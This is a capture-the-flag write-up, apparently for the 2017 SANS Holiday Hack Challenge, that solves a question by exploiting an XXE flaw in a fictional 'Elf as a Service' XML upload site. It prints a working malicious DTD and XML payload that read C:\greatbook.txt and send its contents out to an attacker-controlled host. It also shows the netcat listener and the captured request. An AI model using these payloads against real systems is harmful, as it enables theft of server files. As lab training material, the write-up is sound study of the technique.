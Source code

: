 * Question
   :PROPERTIES:
   :CUSTOM_ID: q6_question
   :END:

The North Pole engineering team has introduced an Elf as a Service
(EaaS) platform to optimize resource allocation for mission-critical
Christmas engineering projects at
http://eaas.northpolechristmastown.com. Visit the system and retrieve
instructions for accessing The Great Book page from C:\greatbook.txt.
Then retrieve The Great Book PDF file by following those directions.
What is the title of The Great Book page?

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q6_background-information
   :END:

** Hints:

 #+begin_hint
 The Elf As A Service (EAAS) site is a new service we're experimenting with in the North Pole. Previously, if you needed a special engineer for toy production, you would have to write a memo and distribute it to several people for approval. All of that process is automated now, allowing production teams to request assistance through the EAAS site.
 #+end_hint

 #+begin_hint
 The EAAS site uses XML data to manage requests from other teams. There is a sample request layout available that you can download. Teams just customize the XML and submit!
 #+end_hint

 #+begin_hint
 I think some of the elves got a little lazy toward the go-live date for EAAS. The sample XML data doesn't even include a DTD reference.
 #+end_hint

 #+begin_hint
 XML processing can be complex. I saw an interesting article recently on the [[https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities][dangers of external XML entities]].
 #+end_hint

** Blog Posts:

This post is called out in the hints:

 Exploiting XXE Vulnerabilities in IIS.NET
 https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

To pull off this attack, we'll need to host a file somewhere that the EaaS system can reach. We can either host it on l2s, in which case we'll use this blog post for creating a file on that system, which is locked down with =rbash=:

 A Spot of Tee
 https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee

Alternatively, we could spin up an AWS VM using the instructions in this blog post:

 Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)
 https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2

The hints are all pretty strongly pointing us towards an {{{abbr(XML External Entity, XXE)}}} vulnerability.

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q6_goal
   :END:

We want to access C:\greatbook.txt, and then follow those instructions to retrieve a page of the Great Book.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q6_approach
   :END:

We'll start with just pulling up the site in a browser:

#+CAPTION: EaaS Home
#+attr_html: :width 350px
[[./images/eaas_home.png]]

Poking around the site a bit, we see that it provides four functions:

1. We can view our current Elf order at http://eaas.northpolechristmastown.com/Home/DisplayXML,
2. On that same page, we can make a change to our order by uploading a file,
3. We can reset the XML file here: http://eaas.northpolechristmastown.com/Home/CreateElfs,
4. We can download the XML file here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

All this XML talk lines up pretty well with the blog post and the hints. Let's see if the EaaS site is vulnerable to {{{abbr(XML External Entity, XXE)}}}.

Following along with the blog post, we'll create a malicious
{{{abbr(Data Type Definition, DTD)}}} file, borrowing liberally from the SANS post:

#+CAPTION: The DTD File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

If we can get the XML parser to use this {{{abbr(Data Type Definition, DTD)}}} 
file, it will read our target text file, then send it to a system that
we control. This file doesn't help the parser know how to parse our
XML, but we don't really care if it gets parsed correctly or not.

In order to have the XML parser load this {{{abbr(Data Type Definition, DTD)}}} file, we'll use the XML example in the blog post:

#+begin_note
This example in the blog post had a typo, where the last character was a =<= instead of a =>=.
#+end_note

#+CAPTION: The XML File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

This will load our evil.dtd file, then instantiate the necessary
entities. To finish off the attack, we'll need two HTTP services
running. The first will need to serve the evil.dtd file. Python's
=SimpleHTTPServer= is the easiest way to do this, and in fact, that's
provided on l2s. We'll create our file, with tee, then start a
server. Ports 8080 and 4444 are very contentious on l2s, so we'll use
non-standard ones instead:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ cat | tee evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ python -m SimpleHTTPServer 8271
Serving HTTP on 0.0.0.0 port 8271 ...
#+END_SRC

In another terminal, we'll start up a =netcat= listener, to capture the response:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

With these services in place, we're ready to upload our malicious XML file. Using a web browser, we'll upload our XML file, and then see what happens.

#+BEGIN_SRC 
Serving HTTP on 0.0.0.0 port 8271 ...
10.142.0.13 - - [10/Jan/2018 22:26:43] "GET /evil.dtd HTTP/1.1" 200 -
#+END_SRC

Great, our DTD file was loaded! And checking our =netcat= instance:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

...nothing. That's disappointing. We've already noticed one typo in
the blog. Could it be possible that there was another error? Taking a
close look at the image on the page, we notice that part of the DTD
file is escaped differently from how the example shows up on the
webpage:

#+CAPTION: DTD File
#+attr_html: :width 350px
[[./images/eaas_dtd.png]]

We'll update our DTD file, so that the percent sign before ~sendit~ is escaped:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

We'll upload our file one more time, and...

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.yNLdj0xcg7AZi5v1gYns2lFO$ nc -l -p 8272
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.11:8272
Connection: Keep-Alive
#+END_SRC

Success! In the =GET= request, the text after =?= is the contents of C:\greatbook.txt. If we pull up that URL, we get GreatBookPage6.pdf.

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q6_solution
   :END:

We upload this XML file:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

And this is our DTD:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

When we upload our XML file, we receive the contents of the target file, and can then download the PDF.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q6_common-pitfalls
   :END:

This followed closely to the SANS blog post, but there was a typo and an HTML rendering issue with some of the provided code that caused some headaches.
